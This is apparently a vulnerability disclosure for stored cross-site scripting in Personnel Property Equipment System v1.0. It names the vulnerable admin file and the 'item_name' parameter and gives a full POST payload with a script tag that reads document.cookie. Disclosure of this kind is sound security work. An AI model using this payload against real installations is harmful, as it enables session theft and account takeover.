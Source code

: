 # Personnel Property Equipment System v1.0 has stored cross-site scripting

BUG_Author: LeoZhangCA

vendors: https://www.sourcecodester.com/php/11255/personel-property-equipment-system.html

Vulnerability File: /PPES/admin/add_item.php

POST parameter "item_name" exists stored cross-site scripting vulnerability

Payload: item_name=<script>alert(document.cookie)</script>&item_brand=2&item_serial=3&item_status=New&item_description=<p>4</p>&save=

![image](https://github.com/LeozhangCA/CVEReport/blob/main/picture/storeXSS1.png)

Payload will trigger when a user visits on http://localhost/PPES/admin/item.php

![image](https://github.com/LeozhangCA/CVEReport/blob/main/picture/storeXSS2.png)
